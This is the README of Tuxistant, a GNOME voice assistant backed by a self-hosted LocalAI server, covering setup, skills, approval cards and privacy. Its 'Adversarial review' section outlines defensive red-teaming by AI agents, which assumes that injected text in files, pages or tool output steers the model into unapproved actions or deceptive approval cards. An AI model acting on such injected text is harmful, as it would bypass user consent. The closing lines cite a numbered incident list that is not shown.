# Tuxistant

A voice assistant for the Linux desktop. Press a shortcut or hold Fn, talk, and Tux answers out loud while an animated blob reacts on screen and captions show what was heard and said.

Speech recognition, the language model and speech synthesis run on a [LocalAI](https://localai.io) server of your own, which [server/](server/README.md) sets up. Tuxistant is the desktop side: a GNOME Shell extension, a small daemon and a Settings app.

<p align="center">
  
</p>
<p align="center"><em>The real extension in an isolated GNOME Shell, with a scripted question and reply.</em></p>

## Requirements

- GNOME Shell 50 on Wayland
- Python 3.14 with `dbus_fast`, `websockets`, `PyYAML` and PyGObject (GTK 4, libadwaita 1.9 or newer). Ubuntu 26.04 has all of this except two modules, which the first install step adds
- PipeWire with `pw-record` and `pw-cat`
- `glib-compile-schemas`
- A LocalAI server with a realtime pipeline (`tux-realtime` by default) and a voice model (`tux-voice`). [server/](server/README.md) has a script that sets one up on a computer with an 8 GB NVIDIA GPU
- For the skills, all optional: `bwrap` for shell commands that need no click, `localsearch` or `plocate` for finding files, GSConnect for phones, `python3-cryptography` for Tapo lights, Evolution Data Server with its Python bindings (`gir1.2-ecal-2.0` on Ubuntu) for the calendar, Thunderbird for mail search, `wpctl`, which comes with WirePlumber, for the volume, a Home Assistant of your own for the smart home, a SearXNG server for web search and research, and a LibreTranslate server for translation with Piper voices on LocalAI to hear it spoken, both of which [server/](server/README.md) covers

## Install

On Ubuntu 26.04, add the two Python modules it doesn't come with, and `git` to fetch the code:

```sh
sudo apt install git python3-dbus-fast python3-websockets
git clone --branch v0.2.0 https://github.com/BuenGenio/Tuxistant.git
cd Tuxistant
```

Or take the download from the website or the [releases page](https://github.com/BuenGenio/Tuxistant/releases), and skip `git`: `tar xzf Tuxistant-0.2.0.tar.gz && cd Tuxistant-0.2.0`.

To try the 0.3.0 preview instead, which adds media, timers, Home Assistant, mail and web search and your own skills, clone with `--branch v0.3.0`. Most of it has only run in tests so far; [CHANGELOG.md](CHANGELOG.md) says which parts.

Other systems name these packages differently. The installer stops before copying anything if a module is missing, and says which.

```sh
./install.sh                  # everything, including hold-Fn-to-talk; the Fn helper uses sudo
./install.sh --no-fn-helper   # the same without hold-Fn-to-talk, so no sudo
```

The first form asks whether to add the Claude SDK for Cloud, which is optional, so answer no unless you want it. Then it asks for your password to install the Fn helper.

Then finish by hand, because a running Wayland session cannot load a new extension:

1. Log out and back in once.
2. Run `gnome-extensions enable tuxistant@buengenio`.
3. Run `tuxistant doctor` to check that everything is in place, including that the extension is enabled.

On a new account `~/.local/bin` isn't on your `PATH` until you log back in. Until then the command is `~/.local/bin/tuxistant`.

The installer puts a `tuxistant` command in `~/.local/bin`, the extension in `~/.local/share/gnome-shell/extensions`, a systemd user unit and a D-Bus activation file in `~/.local/share`, and creates `~/.config/tuxistant/config.json`. It sets the daemon to start when you log in. Set the server and API key in Settings under General. The server starts as `localhost:8080`, which is right when LocalAI runs on the same computer. To have the installer fetch the key, set `TUXISTANT_KEY_COMMAND` to a command that prints it.

The `tuxistant` command runs from this folder, so keep it where it is. To update, run `git fetch --tags` and `git checkout` the newer tag, or unpack the newer download in its place, then run `./install.sh` again. Running it twice is harmless and keeps your settings.

To remove everything, including the Fn helper, run `./uninstall.sh`. Your settings, API key, history, themes and what skills kept stay unless you add `--purge`.

## Use

| To talk | Do this |
|---|---|
| Shortcut | `Ctrl+Super+Space` starts listening, and Tux works out when you have finished. Press it again to cancel |
| Hold Fn | Hold Fn for 1.5 seconds, talk, then let go. Pressing another key during those 1.5 seconds cancels, so Fn shortcuts keep working. Needs the Fn helper |
| Panel icon | The microphone icon has Talk or Stop, Theme, your recent requests (click one to copy its reply) and Settings |

During a turn you can also right-click the blob to switch theme, open Settings or stop. A band theme such as Waves lets clicks through to the windows below it, so use the panel icon there.

Nothing listens or speaks while the screen is locked: a turn in progress stops, and the shortcut, Fn and `tuxistant say` do nothing until you unlock. A timer or reminder that comes due meanwhile leaves a notification, and Tux tells you what it was if you unlock within an hour for a timer, or a day for a reminder; after that only the notification remains. "Chime for timers" in Settings, which starts off, adds a short sound with no words: before the words on an unlocked screen, and by itself on a locked one.

<p align="center">
  
</p>

### Themes

Four themes come with it, and each one reacts as Tux listens, thinks and speaks. Pick one from the panel icon or in Settings, or [write your own](docs/THEMES.md).



### Dictation

Tap Fn, then press it again and hold it while you speak. When you let go, your words are typed where your cursor is, in any language Whisper knows. For longer passages, or without Fn, `Ctrl+Super+D` starts and stops it.

It only ever types: it never presses Enter, so nothing is sent or run until you say so. If you moved to another window while it was working, the words go to the clipboard instead. Fields that tell the desktop they hold a password are refused, but not every password box does, so don't dictate passwords. Apps that don't support input methods, such as many Electron apps, get a paste, and what was on your clipboard is put back afterwards. It stops by itself after five minutes and copies what it heard rather than typing it.

## What you can ask

| Ask | What happens |
|---|---|
| "What's the weather?" or "What's the news?" | Reads it live. In Settings, set your home town for weather and pick where the news comes from |
| "Find my 2024 tax return" | Searches file names and contents, and reads out the best few. "Open the second one" works for a few minutes afterwards |
| "Send it to my phone", "Where's my phone?" | Sends a file through GSConnect, rings the phone, or reads its battery. Sending asks first |
| "Move everything in Downloads older than a year to the Trash" | Shows how many files and how much space, and waits for your click. Nothing is deleted outright |
| "What's on my calendar tomorrow?", "Add dentist on Friday at 3pm" | Reads your calendars, and adds an event once you click to allow it. It uses the calendars GNOME Calendar shows: add the account once in GNOME Settings under Online Accounts. So far reading has been tried on Google and adding on a local calendar. CalDAV and Microsoft, which also needs the `evolution-ews` package, have not been tried yet |
| "When did I book the flights?", "What did my landlord say about the rent?" | Finds the answer in the mail Thunderbird keeps on this computer and says who it was from and when. Off until you turn on "Search my mail" in Settings |
| "Turn off the lights", "Make the lamp warm white" | Switches, dims and colours Tapo smart lights on your network. Add your TP-Link account in Settings under General |
| "Turn off the kitchen light", "Is the front door locked?", "Set the heating to 21" | Controls and reads your Home Assistant by the names you gave things there: lights, plugs, fans, heating, blinds, locks and scenes. Unlocking, opening, activating a scene and running a script wait for a click. Add the address and a long-lived access token in Settings under General. Until both are there, Tux doesn't offer it |
| "Pause the music", "Skip this song", "Turn it up", "What's playing?" | Pauses, resumes and skips whatever is playing in Spotify, VLC, a browser or any other player that speaks MPRIS, tells you the song and who it is by, and sets the volume, never above 100 percent |
| "Set a pasta timer for 8 minutes", "Remind me at 5pm to call mum", "How long is left on the pasta?" | Tux says it out loud when it is due and leaves a notification. Timers and reminders are kept through a restart. "Cancel the pasta timer" or "cancel my timers" removes them. Each is said once, with no snooze, and the computer has to be on with you logged in |
| "How do you say thank you in Ukrainian?" | Translates on your own server and says it in a native voice. "Translate what I've selected into French" works too |
| "How many chemical elements are there?", "What's 15 percent of 80?" | Looks it up instead of guessing: Wikipedia first, then web search, and it says so if neither clearly answers. Sums are worked out on this computer |
| "Search the web for flights to Lisbon", "Research electric bikes" | Reads out the top results, or reads a few pages and tells you what they say, naming its sources. Needs SearXNG |
| "What's my IP address?", "Which folder is the biggest?", "Is docker running?" | Reads it from the system |
| "What does my todo file say?", "Install VLC" | Runs a command. Read-only commands run in a sandbox with no click, and anything else shows the exact command first |
| "Find my CV and send it to my phone" | Several steps in a row, with the same approval cards |

**Approval cards.** Anything that changes something, or sends a file off this computer, puts a card on screen saying exactly what will happen, and only a click on Allow goes ahead. Saying yes doesn't count, because a voice nearby could say it. No answer in 45 seconds counts as no. Every action and answer is listed in History. [docs/SKILLS.md](docs/SKILLS.md) has the rules.

| A normal card | A card for something that runs as administrator |
|---|---|
|  |  |

**Cloud.** Complex requests stay on your own server unless you turn on Cloud in Settings, which is off by default and needs your own Anthropic API key. With it on, Claude sees your request plus file names, command output, Home Assistant state and stored reminders returned during that task. File contents, home state and stored reminders go only if you click to allow each result. It needs the Anthropic SDK: run `./install.sh --cloud-sdk`, which needs `pip` (`python3-pip` on Ubuntu).

**Settings** has pages for General (server, API key, listening, weather, news, calendar, mail, timers, shortcut, phone, translation and search, lights, Home Assistant, cloud, instructions), Voice, Appearance, Skills and History.

| General | Skills |
|---|---|
|  |  |

<details>
<summary>The other pages</summary>







</details>

The same things work from a terminal:

| Command | What it does |
|---|---|
| `tuxistant toggle` | Start listening, or cancel what is going on |
| `tuxistant cancel` | Stop everything |
| `tuxistant say <text>` | Speak some text |
| `tuxistant history` | Show recent requests |
| `tuxistant doctor` | Check the Python modules, the server, the API key, PipeWire, the Fn helper if it is installed, whether the calendar can be used and any mail was found, that the extension is enabled, that the daemon can start, and that approval cards can show |
| `tuxistant settings` | Open Settings |
| `tuxistant daemon` | Run the daemon in the foreground |

## How it fits together



- **Daemon** (`tuxistant/`): runs as a systemd user service and starts on demand through D-Bus. It owns the conversation, the microphone and speaker through PipeWire, skills, history and config. It starts at login, so that holding Fn works straight away and a reminder set yesterday is said today.
- **Extension** (`extension/`): everything on screen. It talks to the daemon over the session bus.
- **Settings** (`tuxistant/settings_app.py`): a GTK 4 and libadwaita app that talks to the same daemon.
- **Themes** (`themes/`): a JSON file and a GLSL shader each. See [docs/THEMES.md](docs/THEMES.md).
- **Skills** (`tuxistant/skills_builtin/`): the actions Tux can take. See [docs/SKILLS.md](docs/SKILLS.md).
- **Fn helper** (`helper/`): a GNOME shortcut cannot be set to Fn alone, so a small separate service reads the key from the kernel.
- **Server** (`server/`): a script and model configs that set up LocalAI for Tuxistant. See [server/README.md](server/README.md).

[docs/CONTRACT.md](docs/CONTRACT.md) is the exact specification between these parts. [docs/ROADMAP.md](docs/ROADMAP.md) has where the project stands and what comes next.

## Privacy

- **The Fn helper is the only part that can see your typing, and it is built to forget it.** To notice Fn it has to read the keyboard. It says only `down`, `up` and `other`: `other` means some other key was pressed while Fn was held, at most once per hold, and it never says which. With Fn up it says nothing at all. It runs as an unprivileged throwaway user with no network, and `tests/test_fn_helper.py` checks these promises.
- The microphone is on only during a turn or while you dictate, plus a short while after each reply if conversation mode is on. Audio goes to the server you configured and nowhere else.
- What you dictate isn't kept: it goes to your server to become text, into your window, and into no log or history. No model sees it.
- [docs/SECURITY.md](docs/SECURITY.md) has real attacks on Tuxistant and what stopped them.
- Some skills reach the internet, and only for what you asked. None of these services receives your voice or the conversation, only the words below, and they can see your IP address or your server's:
  - A weather question sends the town name to Open-Meteo, and a news question fetches a feed from the source you picked in Settings, which is BBC News until you change it.
  - A question of general knowledge goes to Wikipedia as text, and on to the search engines behind your SearXNG server if Wikipedia has no answer. This happens with no click, and the model on your own server is what decides a request is one, so a private question it got wrong would go too. Turn off "Look up facts on Wikipedia" in Settings and nothing goes, but Tux then answers from memory and can be wrong.
  - Web search and research send what you asked for to those search engines, and research opens a few of the pages from this computer.
- Cloud is the one exception to all of that, and it is off unless you turn it on. Translation stays on your own server, and a request that is only a sum stays on this computer.
- Calendar events are read on this computer and go only to your own server, as part of the conversation. Tuxistant never holds a calendar account's password: GNOME does, and an event you add goes to that calendar's account the way one added in GNOME Calendar would.
- Mail search is off until you turn it on. It reads the search index Thunderbird keeps on this computer, and never changes it. What a mail says goes to your own server to be read and nowhere else, and Tuxistant holds no mail password. Junk and Trash are never read, and sign-in codes and passwords are hidden from a mail before it is.
- Home Assistant is only talked to once you add its address and a long-lived access token in Settings. The token is as good as a key to the house. It lives in `~/.config/tuxistant/config.json`, readable only by you, is never sent over D-Bus to the extension or to Settings, and goes to that one address and nowhere else: no proxy, no redirect, and never over plain http to an address that isn't on a private network. Changing the address clears it. What you call a thing is matched on this computer, so your words never reach Home Assistant, only which thing and what to do. What it answers, such as whether a door is locked, goes to your own server as part of the conversation. With Cloud on, sending these results to Claude needs a separate approval card.
- Once a conversation has read your files, command output, selected text, calendar, mail or the state of your home, anything reaching past your own server needs a click.
- History stays on this machine in `~/.local/share/tuxistant/history.db`, readable only by you. You can clear it in Settings.
- Timers and reminders stay on this machine in `~/.local/share/tuxistant/timers.json`, readable only by you. Clearing the history doesn't clear them. With Cloud on, sending stored reminder times and labels to Claude needs an approval card. A reminder is said aloud to whoever is in the room and shown in a notification, but never said on a locked screen.
- The API key lives in `~/.config/tuxistant/config.json`, readable only by you. It is not sent over D-Bus to the extension or to Settings, and changing the server clears it, so that it only ever goes to the server it was given for. For TLS, enter the server as `https://host:port`.

## Skills and security

Skills are how Tux gets new abilities, and the plan includes skills people can share through a community registry. That registry hasn't been started. You can write your own skills with code: they run in a sandbox and load while Tux is running ([docs/SKILLS.md](docs/SKILLS.md#code-skills)). There is no way yet to install someone else's from a registry.

The plan starts from one assumption: a bad skill will eventually get past review. Review helps, but permissions and the sandbox have to be what protects you.

| Protection | Status |
|---|---|
| Risk computed from permissions | Built |
| Every risky action goes through a card | Built |
| Private data can't leave without a click | Built |
| Read-only shell commands run in a sandbox | Built, for the shell skill only |
| Each skill confined to its declared permissions at run time | Built for code skills, which may only ask for the network, and get all of it or none. Built-in skills run inside the daemon |
| Signing, hash pinning, re-approving new permissions | **Planned** |
| Publisher namespaces against lookalike names | **Planned** |
| Sandbox for skills with their own code | Built. Not yet tried on the real desktop |

Confining each skill at run time matters most, because that's what has to hold once a bad skill gets through. Shell access stays built in, and community skills will never be able to request it. [docs/ROADMAP.md](docs/ROADMAP.md#rules-for-shared-skills) has the rules for shared skills and the order of the work.

## Adversarial review

Tuxistant can read your files, run commands and send things off your computer, and the model driving it can be steered by any text it reads. So "does it work?" isn't enough of a question. Each big round of work also has to survive someone trying to break it.

Tuxistant is built with AI coding agents (Claude). The reviewers are separate agents that didn't write the code they are attacking, and the project's owner decides what ships.

### How a review runs



- **Reports are claims, not facts.** Reviewers get what the builders said they did, with orders to check it rather than believe it.
- **One lens each.** The attacker assumes a hostile file name, document, web page or tool output has already reached the model, and that the model will now make any tool call the attacker wants. Its job is to get something harmful done without a real click, or to get a click on a card that lies. The integration reviewer runs the whole suite and follows real requests across the parts, because the seams between separately built parts are where bugs gather.
- **Reproduce it or it doesn't count.** Findings need a concrete scenario, tried for real where that's safe: real commands through the real sandbox, in a throwaway home folder. Style notes aren't allowed, and each finding says whether it was reproduced or only read.
- **Reviewers can't change anything.** They are read-only on the project, and are told to stay off the real desktop, files, phone and clipboard.
- **They also report what held.** A list of attacks that failed, and of what was never tried, shows how far a clean result reaches.
- **A test has to be seen failing.** After a fix, the guard is broken on purpose in a throwaway copy to prove its test notices, and only once the same tests pass with nothing broken.

### What it has caught

| Round | Reviewers | Result |
|---|---|---|
| First build | Requirements, shell, security, daemon | 36 problems confirmed, some of them duplicates |
| Skills, shell and approval cards | Attacker, integration | 22 problems reproduced, none rated critical, and 26 attacks and checks that held |
| Dictation | Security | Numbers 5 and 6 below |
| Web search, research and facts | Attacker, turn logic | 11 problems and 4 tests that proved nothing, all reproduced, and over 4,000 orderings of a turn that held. See [docs/SECURITY.md](docs/SECURITY.md) |

All eight of these really happened in this project. Each one has a test or a code fix behind it, except number 7, which is written up in [docs/TESTING.md](docs/TESTING.md). [docs/SECURITY.md](docs/SECURITY.md) keeps the list as it grows.

